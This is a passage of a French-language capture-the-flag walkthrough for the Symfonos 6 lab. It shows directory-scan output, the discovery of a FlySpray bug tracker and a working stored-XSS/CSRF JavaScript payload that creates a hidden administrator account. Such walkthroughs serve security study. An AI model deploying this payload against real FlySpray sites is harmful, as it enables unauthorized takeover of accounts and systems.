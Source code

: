 ```bash
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403        8l       22w      210c http://192.168.56.117/cgi-bin/
200     1006l     4983w        0c http://192.168.56.117/icons/
500       23l       93w      943c http://192.168.56.117/posts/
200       21l       30w      251c http://192.168.56.117/
200      474l     1627w        0c http://192.168.56.117/flyspray/
[####################] - 16s    62260/62260   0s      found:5       errors:0      
[####################] - 16s    62260/62260   3854/s  http://192.168.56.117/
```

Le `FlySpray` en question est une appli de gestion de tickets (bugtracker): [GitHub - flyspray/flyspray: Flyspray Bug Tracking System](https://github.com/Flyspray/flyspray/)

Sur le ticket déjà présent on peut voir un certain `Mr Super User` indiquer qu'il surveille de près l'issue.

![Mr Super User is watching](https://raw.githubusercontent.com/devl00p/blog/main/images/vulnhub/symfonos6/mr_super_user_watching.jpg)

Ca tombe bien car il existe une faille XSS dans `Flyspray` : [FlySpray 1.0-rc4 - Cross-Site Scripting / Cross-Site Request Forgery - PHP webapps Exploit](https://www.exploit-db.com/exploits/41918)

Le champ vulnérable est celui du `real_name` quand on édite le profil d'un utilisateur. Si on y injecte du javascript il sera exécuté quand un utilisateur tombera sur un de nos messages.

Par conséquent j'ai créé un compte sur l'appli puis j'ai repris le code d'exploitation et l'ait placé dans un fichier `adduser.js` :

```js
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="http://192.168.56.117/flyspray/index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```
